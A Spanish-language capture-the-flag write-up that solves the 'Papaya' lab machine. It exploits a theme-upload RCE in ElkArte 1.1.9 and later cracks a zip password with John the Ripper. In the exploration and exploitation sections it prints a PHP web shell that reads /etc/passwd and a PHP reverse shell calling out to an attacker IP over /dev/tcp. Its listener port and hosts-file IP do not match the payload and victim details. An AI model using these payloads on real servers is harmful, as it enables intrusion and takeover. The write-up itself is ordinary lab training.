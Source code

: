 # CTF - The Hackers Labs - Papaya

## 📑 Información General

- **Nombre:** Papaya
- **Dificultad:** Fácil
- **SO:** #Linux
- **Vulnerabilidad principal:** RCE (Remote Code Execution)
- **Fecha resolución:** 06/06/2025
- **MD5:** 855d57fe8086baf60cce4c69bfbd6ee1
- **Enlace:** https://thehackerslabs.com/papaya/

> Objetivo > Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo inicial

IP máquina víctima: **192.168.10.19**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 64, estamos frente a una máquina **Linux**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(1).png)

### Escaneo de Puertos

A continuación, proseguimos con un escaneo de puertos. El resultado revela que los puertos **21**, **22** y **80** se encuentran abiertos y accesibles. Además, el escaneo devuelve un fichero encontrado en el directorio compartido mediante FTP llamado **secret.txt**.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.19
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(2).png)

### Enumeración de Servicios

| Puerto | Servicio |    Versión    |         Notas         |
| ------ | -------- |:-------------:|:---------------------:|
| 21     | FTP      |       -       | Permite login anónimo |
| 22     | SSH      | OpenSSH 9.2p1 |           -           |
| 80     | HTTP     | Apache 2.4.59 |     Servidor web      |

## 🌐 Exploración

### FTP

Accedemos primero al servicio FTP para analizar el fichero **secret.txt** que tenemos a nuestro alcance. Como el servicio permite el login anónimo, no necesitaremos credenciales para poder iniciar sesión y descargar el fichero.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(3).png)

El fichero contiene la siguiente cadena:

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(4).png)

A primera vista, no parece ser un hash ni una codificación estándar. De hecho, la inclusión de la letra `ñ` me da a entender que el texto está en español y la estructura del cifrado me recuerda a un cifrado de sustitución, seguramente **Caesar**, así que intento descifrarlo mediante fuerza bruta con una herramienta de internet llamada [DCode](https://www.dcode.fr/cifrado-cesar) y descubro que con 13 desplazamientos aparece un texto que nos indica que no sigamos explorando por aquí. 

Así pues, pasamos a analizar el sitio web.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(5).png)

### Reconocimiento Web

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(6).png)

Al escribir la IP de la máquina víctima, nos redirigirá automáticamente al dominio `papaya.thl`. Lo añadimos a `/etc/hosts` para que haga la resolución correctamente y podamos acceder a ella. Escribimos el siguiente comando en la terminal:

```bash
echo '192.168.1.15 papaya.thl' >> /etc/hosts
```

Recargamos la página y esta vez sí tenemos acceso al sitio web. Vemos que estamos ante un foro cuyo sistema de gestión de contenidos es `ElkArte 1.1.9`. 

> Elkarte es un foro web gratuito y de código abierto, basado originalmente en Simple Machines Forum (SMF). Está escrito en PHP y utiliza bases de datos MySQL/MariaDB. Es una plataforma moderna y ligera, diseñada para ser fácil de usar y extensible.

Buscamos información sobre el CMS `ElkArte` en **Exploit-DB** y descubrimos que esta versión en concreto es vulnerable a exploits **RCE (Remote Code Execution)**. Más información en: https://www.exploit-db.com/exploits/52026

Seguiremos los pasos explicados en el enlace anterior.

En primer lugar, necesitaremos acceder como el usuario `admin` y subir un fichero malicioso en el apartado `Themes`.


Creamos un fichero malicioso llamado `test.php` que tendrá el siguiente contenido:

```bash
<?php system('cat /etc/passwd'); ?>
```

Lo comprimimos ejecutando `zip test.zip test.php` y lo cargamos en el instalador de temas del sitio web.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(7).png)

Ahora, abrimos el fichero desde el navegador accediendo a la siguiente ruta:

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(8).png)

## ⚔️ Explotación

Una vez comprobemos que la ejecución ha sido un éxito, configuramos un **payload** con la ayuda de  https://www.revshells.com/ y volvemos a repetir el procedimiento. El contenido del fichero `test.php` será el siguiente:

```bash
<?php system('bash -c "sh -i >& /dev/tcp/192.168.10.22/4445 0>&1"'); ?>
```

Ponemos la máquina atacante en modo escucha con el comando `nc -lvnp 4444` y accedemos nuevamente al fichero desde la url. Se nos abrirá una terminal con el usuario **www-data**. Hacemos un tratamiento de la TTY para poder navegar de forma cómoda por el sistema. 

Visualizamos el fichero `/etc/passwd` y encontramos algunos usuarios, entre ellos el usuario **papaya**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(9).png)

Listamos algunos directorios y encontramos un fichero en `/opt` llamado **pass.zip**.  Nos movemos al directorio en cuestión y levantamos un servicio web con `python` ejecutando el siguiente comando:

```bash
python3 -m http.server 8080
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(10).png)

Desde nuestra máquina atacante, hacemos un `wget` del fichero para descargarlo. Intentamos descomprimirlo, pero parece que tiene una contraseña. Para descifrarla, haremos uso de la herramienta **John The Ripper**. Ejecutamos los siguientes comandos para extraer el hash de la contraseña y hacerle un ataque de fuerza bruta:

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(11).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(12).png)

La contraseña de `pass.zip` es **jesica**. Volvemos a descomprimir el fichero, esta vez con utilizando las credenciales que hemos obtenido y visualizamos el fichero que contiene. Es otra contraseña, seguramente del usuario **papaya**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(13).png)

Ahora, iniciaremos sesión con estas credenciales en la máquina víctima mediante el **protocolo SSH**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(14).png)

🚩 **Flag de user encontrada.**

## 🔐Escalada de Privilegios

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(15).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(16).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/papaya%20(17).png)

🚩 **Flag de root encontrada.**
